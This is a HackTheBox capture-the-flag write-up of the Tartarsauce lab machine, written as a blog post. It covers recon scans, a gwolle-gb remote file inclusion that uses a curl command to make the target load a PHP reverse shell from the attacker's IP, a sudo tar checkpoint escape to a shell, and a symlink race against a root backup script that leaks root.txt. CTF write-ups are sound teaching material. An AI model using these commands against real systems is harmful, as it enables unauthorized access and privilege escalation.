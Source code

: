```yaml
---
title: Tartarsauce
date: 2022-06-11 
categories: [HackTheBox, Medium]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/EvyXmVu.png)

Tartarsauce is an odd box because I was never actually able to gain a root shell on it. The box deals a lot with using tar to pivot or escelate privileges. Its probably where the box got its name from. The author seemed to have a lot of fun putting little jokes throughout the box.

## Recon

`nmap -sVC 10.10.10.88`
``` 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 21:56 EDT
Nmap scan report for tartarsauce.htb (10.10.10.88)
Host is up (0.087s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.46 seconds
```


Wpscan Results
```
 [+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2022-05-12T09:58:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.2.2
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```
> You need to run an aggressive scan to find this pluggin
{: .prompt-warning }

Upon research into gwolle-gb, RFI is possible. In order to perform, have a file, preferably a php reverse shell, named wp-load.php and set it to root directory of your server. Run the curl command with the listener and reverse shell set up properly.

```
curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.19/
```

## User

Run `sudo -l` to discover:

```
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

[GTFObins](https://gtfobins.github.io/gtfobins/tar/#sudo) this

`sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

## Root

Interesting pspy output:
```
2022/06/11 01:14:10 CMD: UID=0    PID=28941  | /bin/bash /usr/sbin/backuperer
```

The script

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Basically, its backing up the webroot and pauses for 30 sec. After 30 seconds, it checks to see if there has been any changes to the webroot and the archive it just created. Any changes get diffed. Since diff outputs the differences and outputs into a file AND this is run as root, this is essentially root file read.

Within that 30 second gap, remove an existing file and replace it with a symlink to root.txt. To see when the script executes, pay attention to pspy.

Demo:

```
www-data@TartarSauce.htb: $ ls 
index.html  robots.txt  webservices
www-data@TartarSauce.htb: $ echo fart > lmao.txt 
rm lmao.txt; ln -s /root/root.txt lmao.txt
www-data@TartarSauce.htb: $ ls
index.html  lmao.txt  robots.txt  webservices
www-data@TartarSauce.htb: $ cat /var/backups/onuma_backup_error.txt
[...]
------------------------------------------------------------------------ 
Integrity Check Error in backup last ran :  Sat Jun 11 01:24:15 EDT 2022
------------------------------------------------------------------------ 
/var/tmp/.b3db02ba045c0199cd5b9959f56dd73c3be1bd5e   
diff -r /var/www/html/lmao.txt /var/tmp/check/var/www/html/lmao.txt
1c1        
< 45e29bf14bc90a46f46d670baadffcab
---
> fart
```

This POC works.
Just add in the `/root/root.txt` file and this should be pwned :)
